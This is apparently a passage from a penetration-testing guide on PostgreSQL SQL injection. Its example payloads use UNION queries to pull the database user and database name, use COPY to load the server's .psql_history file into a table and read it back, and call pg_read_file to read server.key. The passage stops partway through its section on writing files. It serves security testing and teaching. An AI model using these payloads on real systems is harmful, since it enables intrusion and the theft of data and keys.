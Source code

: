 ```sql
http://www.example.com/store.php?id=1 UNION ALL SELECT user,NULL,NULL--
http://www.example.com/store.php?id=1 UNION ALL SELECT current_user, NULL, NULL--
```

#### Current Database

The built-in function current\_database() returns the current database name.

##### Example

`http://www.example.com/store.php?id=1 UNION ALL SELECT current_database(),NULL,NULL--`

#### Reading from a File

PostgreSQL provides two ways to access a local file:

- `COPY` statement
- `pg_read_file()` internal function (starting from PostgreSQL 8.1)

##### COPY

This operator copies data between a file and a table. The PostgreSQL engine accesses the local file system as the `postgres` user.

###### Example

```sql
/store.php?id=1; CREATE TABLE file_store(id serial, data text)--
/store.php?id=1; COPY file_store(data) FROM '/var/lib/postgresql/.psql_history'--
```

Data should be retrieved by performing a `UNION Query SQL Injection`:

- retrieves the number of rows previously added in `file_store` with `COPY` statement
- retrieves a row at a time with UNION SQL Injection

```sql
/store.php?id=1 UNION ALL SELECT NULL, NULL, max(id)::text FROM file_store LIMIT 1 OFFSET 1;--
/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 1;--
/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 2;--
...
...
/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 11;--
```

##### pg_read_file()

This function was introduced in `PostgreSQL 8.1` and allows one to read arbitrary files located inside DBMS data directory.

###### Examples

- `SELECT pg_read_file('server.key',0,1000);`

#### Writing to a File

By reverting the COPY statement, we can write to the local file system with the `postgres` user rights
